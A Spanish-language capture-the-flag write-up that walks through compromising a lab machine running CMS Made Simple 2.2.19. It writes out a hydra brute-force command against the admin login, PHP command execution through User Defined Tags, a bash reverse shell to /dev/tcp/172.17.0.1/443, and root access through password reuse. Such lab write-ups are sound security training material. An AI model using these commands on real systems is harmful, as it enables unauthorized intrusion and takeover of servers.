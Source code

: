 Empezamos la maquina Dificil

![image](https://github.com/user-attachments/assets/71b619b0-2b37-412e-83a7-83b78f38fe80)

nmap: 22,80

---
entramos a la pagina principal y no hay mucho

![image](https://github.com/user-attachments/assets/e7c0645d-1ef4-4150-94ae-581a881de90a)

 nos vamos al código fuente y dice al final:
![[codigo fuente .png]]
entramos:
> http://172.17.0.2/cmsms/
![[pagina principal 2.png]]
buscando y haciendo Fuerza bruta de directorios, no encontraba mucho, pero me entro la curiosidad por esto:
![[curiosidad 1.png]]
Esta en PHP así que probablemente tiene un "login.php" y al final di con esto
> http://172.17.0.2/cmsms/admin/login.php

![[login.php 1.png]]
que nos lleva al login

si capturo con burpsuite el login que ya tiene por defecto un usuario y contraseña que dicen que es incorrecto, da esto:
> username=admin&password=christelle&loginsubmit=Submit

![[captura burp.png]]
Que realmente no nos dice mucho. 

hacemos un ataque de fuerza bruta:

    - hydra -l admin -P /usr/share/wordlists/rockyou.txt  "http-post-form://172.17.0.2/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect"  

![[fuerza bruta.png]]

y nos da la contraseña "chocolate" para admin
probamos en el panel de login
![[panel admin.png]]
ya estamos dentro el panel, vemos una versión antigua entonces buscamos las vulnerabilidades conocidas para la versión 2.2.19 de CMS Made Simple. las cuales encontré con esta explicación 

> |[CVE-2024-27625](https://translate.google.com/website?sl=en&tl=es&hl=es&client=srp&u=https://www.cve.org/CVERecord?id%3DCVE-2024-27625)|La versión 2.2.19 de CMS Made Simple es vulnerable a ataques de secuencias de comandos entre sitios (XSS). Esta vulnerabilidad reside en el módulo Administrador de archivos del panel de administración. En concreto, el problema surge debido a una limpieza inadecuada de la entrada del usuario en el campo "Nuevo directorio".|
  [CVE-2024-27623](https://translate.google.com/website?sl=en&tl=es&hl=es&client=srp&u=https://www.cve.org/CVERecord?id%3DCVE-2024-27623)|La versión 2.2.19 de CMS Made Simple es vulnerable a la inyección de plantillas del lado del servidor (SSTI). La vulnerabilidad existe en el Administrador de diseño, en particular al editar las rutas de navegación.|

aquí la pagina de la explicación sobre la vulnerabilidad: https://cve-mitre-org.translate.goog/cgi-bin/cvekey.cgi?keyword=cms+made+simple&_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc


nos vamos a: 
> extensiones > user defined tags > add defined tags > le colocamos un nombre y pruebo su vulnerabilidad 

![[prueba.png]]

en code colocamos:

    - <?php echo system('id'); ?>

veremos que queda guardado y entramos al "prueba" que creamos:

guardamos y colocamos "run" nos mostrara este mensaje:
![[prueba 2.png]]

probamos si la vulnerabilidad que encontramos esta funcionando:
![[prueba 3.png]]
nos dará: 

>uid=33(www-data) gid=33(www-data) groups=33(www-data) uid=33(www-data) gid=33(www-data) groups=33(www-data)

o sea que la vulnerabilidad esta funcionando

entonces modificamos ese código dentro del paréntesis y colocamos así la reverse shell con nuestro terminal en escucha:

     - <?php echo system('bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"'); ?>

![[reverse .png]]

entonces la lanzamos con el terminal en escucha y entramos.
![[conexion .png]]
dentro no encontré nada y probé con la misma contraseña de admin del panel por curiosidad con el usuario  admin
ingresamos la contraseña "chocolate" al su root
![[final.png]]
y somos root! 


